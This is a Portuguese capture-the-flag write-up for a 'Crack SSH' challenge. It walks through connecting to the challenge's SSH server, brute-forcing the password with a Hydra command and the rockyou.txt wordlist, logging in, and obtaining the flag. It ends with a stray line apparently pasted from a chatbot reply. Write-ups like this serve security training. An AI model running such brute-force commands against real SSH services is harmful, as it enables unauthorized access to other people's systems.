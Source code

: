 # Crack SSH

> Autor: @Ralfbp

---

## 🧹 Tipos de desafio "Crack SSH"

> Link: [https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7](https://ctf.chapeudepalhahacker.club/challenges#Crack%20SSH-7)

---

### Introdução

#### Enunciado

[![Captura-de-tela-2025-06-06-171425.png](https://i.postimg.cc/rmXvwhMN/Captura-de-tela-2025-06-06-171425.png)](https://postimg.cc/GBKMMxB4)

#### 🔑Objetivo

```
   Brute Force de Senha (Senha fraca)
```

#### 🛠️ Ferramenta utilizada:

```
   Virtual box: https://www.virtualbox.org/
   Kali lunix: https://www.kali.org/get-kali/#kali-platforms
   hydra: https://www.kali.org/tools/hydra/
   ChatGPT:https://chatgpt.com/
```

#### informações utilizadas

```
   Endereço do servidor ssh: ctf.chapeudepalhahacker.club:3342.
   Usuario do servidor: John
```

#### A flag segue o seguinte padrão:

```
   flag{.........}
```

---

## 🛠️ Resolução

* Ao tentar se conectar com o servidor diretamente, ele te pedira a senha que não te foi fornecida

```
   Comando para se conectar: ssh John@ctf.chapeudepalhahacker.club -p 3342
```

[![Captura-de-tela-2025-06-06-172824.png](https://i.postimg.cc/QCZykStx/Captura-de-tela-2025-06-06-172824.png)](https://postimg.cc/jwvcRHPG)

* Utilizaremos o Brute Force do hydra para tentar conseguir a senha
* Usando o comando para o teste de **Brute force**

```
   hydra -l john -P /usr/share/wordlists/rockyou.txt -s 3342 ssh://ctf.chapeudepalhahacker.club
```

[![Captura-de-tela-2025-06-06-234753.png](https://i.postimg.cc/d0MjCdy6/Captura-de-tela-2025-06-06-234753.png)](https://postimg.cc/NK4XqKb2)

* Login e senha

```
   login: John
   senha: iloveyou
```

* Se conectando ao servidor, usando o comando

```
   ssh john@ctf.chapeudepalhahacker.club -p 3342
```

[![Captura-de-tela-2025-06-06-235905.png](https://i.postimg.cc/gjQqz6yf/Captura-de-tela-2025-06-06-235905.png)](https://postimg.cc/YLNm80s3)

* Com isso você encontrou a sua flag

```
flag{BRUT3_SSH_15_V3RY_34SY}
```

---

## ✅ Conclusão

O desafio "Crack SSH" demonstra como senhas fracas podem comprometer sistemas inteiros. Utilizando ferramentas adequadas como o Hydra e wordlists conhecidas (como o rockyou.txt), foi possível realizar um ataque de força bruta com sucesso e obter a flag. Além de reforçar a importância da segurança em serviços SSH, o exercício serve como uma introdução prática ao uso de ferramentas de pentest no Kali Linux.

> ⚡ A flag final é: **flag{BRUT3\_SSH\_15\_V3RY\_34SY}**

Se quiser, posso adaptar essa conclusão para um tom mais descontraído ou técnico — é só pedir!
